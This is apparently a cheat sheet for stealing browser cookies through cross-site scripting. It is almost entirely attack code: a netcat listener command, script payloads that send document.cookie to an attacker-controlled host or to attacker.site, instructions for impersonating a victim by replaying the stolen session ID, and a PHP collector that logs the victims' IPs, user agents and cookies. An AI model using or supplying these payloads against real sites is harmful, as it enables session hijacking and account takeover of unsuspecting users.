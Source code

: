 
**COOKIE STEALER 1:**

**VIA Netcat Listener:**

```
$LPORT: setup listening port
```

> `nc -lvnp $LPORT`

```
$LHOST: attacker ip
$LPORT: attacker listening port
```

> `<script>new Image().src="http://$LHOST:$LPORT/hacked.php?output="+document.cookie;</script>`

**VIA LOGS Webpage:**

```
$RHOST: website
$RPORT: optional port
$LOG: location of logs page recording entries
```

> `<script>new Image().src="http://$RHOST:$RPORT/$LOG/hacked.php?output="+document.cookie;</script>`

**Impersonation:**

Either update through web browser developer tools or through the URL

```
$RHOST: website
$PARAMETER: get param
$SESSIONID: stolen sessionid or cookie
```

> - `http://$RHOST/resource.php?$PARAMETER=$SESSIONID`

---

**EXAMPLE COOKIE STEALER 2:**

```php
// The Payload to inject with XSS
<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie);</script>
// our payload script name: get.php needs to be invoked here
// '+escape' function to avoid special characters to break our link
// Creates a new image object and sets the address of the image to our attacker website link

// GET.php script saves cookie in text file on attacker.site
<?php
$ip = $_SERVER['<remote address>'];
$browser = $_SERVER['<http user agent>'];
$filename = "<file name>"; // Your file name

$fp=fopen($filename, 'a'); // opens the file you specified

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n"); # Gets the value from the QUERY_STRING of the URL and save the information into the filename
fclose($fp);
?>
```
